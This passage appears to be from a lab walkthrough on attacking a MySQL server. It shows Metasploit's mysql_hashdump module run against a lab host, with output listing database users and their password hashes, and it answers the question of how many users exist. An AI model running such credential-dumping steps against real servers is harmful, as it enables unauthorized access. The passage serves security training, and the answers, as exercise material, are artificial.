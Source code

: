 8.  Find the system password hash for user "root".
   
```
auxiliary(scanner/mysql/mysql_hashdump)
set USERNAME root

[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.117.106.3:3306    - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.117.106.3:3306    - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.117.106.3:3306    - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.117.106.3:3306    - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.117.106.3:3306    - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
```
   
9.  How many database users are present on the database server? Lists their names and password hashes.
   
```
auxiliary(scanner/mysql/mysql_hashdump)

[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.117.106.3:3306    - Saving HashString as Loot: root:
[+] 192.117.106.3:3306    - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.117.106.3:3306    - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.117.106.3:3306    - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.117.106.3:3306    - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.117.106.3:3306    - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.117.106.3:3306    - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14

8
```
   